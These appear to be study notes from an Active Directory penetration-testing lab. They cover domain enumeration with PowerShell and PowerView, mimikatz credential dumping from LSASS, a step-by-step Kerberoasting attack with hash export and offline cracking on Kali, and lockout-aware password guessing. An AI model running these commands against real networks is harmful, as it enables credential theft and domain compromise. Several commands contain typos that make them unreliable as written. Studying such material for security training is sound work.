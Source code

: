 		If we now execute the PowerShell script (with .enumerateAD.ps1), we find the full LDAP provider path: LDAP://DC01.corp.com/DC=corp,DC=com
		Now, we expand the script to enumerateAD2.ps1. When run (with ./enumerateAD2.ps1), the script enumerates all the users in the domain
		To narrow down our search, we cna use filter to restrict the search to particular user groups, for example Domain Admins, or to specific usernames, for example Jeff_Admin: ./enumerateAD3.ps1
		This PowerShell script is very flexible and can be used to numerate many more aspects of Active Directory
	Resolving nested groups:
		Let"s expand our script to look into the nested groups: ./enumerateAD4.ps1
	Currently logged in users:
		To list currently logged on users, we can try to use two Windows APIs, called NetWkstaUserEnum (to invoke against workstations) and NetSessionEnum (to invoke against domain controllers)
		To invoke NetWkstaUserEnum, we can use the PowerView script from PowerShell Empire, but the tool need to be already on the machine:
			cd C:\Tools\active_directory
			Import-Module .\PowerView.ps1
			Get-NetLoggedon -ComputerName client251
		Next, let's try to enumerate active sessions to a domain controller (i.e. DC01), invoking NetSessionEnum:
			Get-NetSession -ComputerName dc01
	Enumeration Through Service Principal Names:
		Pre-define service accounts LocalSystem, LocalService, NetworkService
		When applications such as IIS, Exchange or SQL are integrated with AD, a unique service instance identifier, known as Service Principal Name (SPN), is used to associate a service on a specific service to a service account on AD. By enumerating SPNs, we can find IP addresses and port of services on various servers which are integrated with AD. We will query the domain controller for SPNs with a new version of our script:
			.\enumerateAD5.ps1
Active Directory authentication:
	AD supports two authentication methods: NTLM or Kerberos (default)
	NTLM authentication:
		It is a 7 steps process
	Kerberos authentication
		It uses a ticket system
		The domain controller acts as key distribution center (KDC)
	Cached credential storage and retieval:
		Password hashes for Kerberos are saved on the Local Security Authority Subsystem Service (LSASS)
		We need Local Admin to access LSASS and LSASS is encrypted
		Mimikatz can be used to try to access LSASS and extract password hashes for all logged on users:
			mimikatz # privilege::debug
			mimikatz # sekurlsa::logonpasswords
		We can now try to crack the hashes or use mimikatz to exploit the TGT and service tickets:
			mimikatz # sekurlsa::tickets 
			mimikatz is worth exploring more given its many functionalities
	Service Account Attacks:
		We will abuse the Service Ticket and attempt to crack the password of the Service Account, exporting the hashes to our Kali machine to attempt cracking them (attack calle Kerberoasting):
			From PowerShell: Add-Type -AssemblyName Syste,.IdentityModel New-Object 
			From PowerShell: System,.IdentityModel.Tokens.KerberosRequestorSecurityTocken -ArgumentList 'HTTP/CorpWebServer.corp.com'
			From PowerShell: klist
			With mimikatz we export the hashes to the disk of the server: mimikatz # kerberos::list /export
			We then transfer the hashes to our Kali attacker machine for example to the location: /ftphome/1-40a50000-Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
			We install kereroast on our Kali machine: sudo apt-get update && sudo apt-get install kerberoast
			Finally, to crack the hash from Kali attacker machine: python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt /ftphome/1-40a50000-Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
	Low and slow password guessing:
		Some domain account policies have account lock outs that may be triggered by brute force or wordlist cracking attacks
		To perform such attack, we first look at the domain account policies and in particular at the "Lockout threshold" and "lockout duration": net accounts
		We can use our PowerShell script to implement our attack: ./enumerateAD6.ps1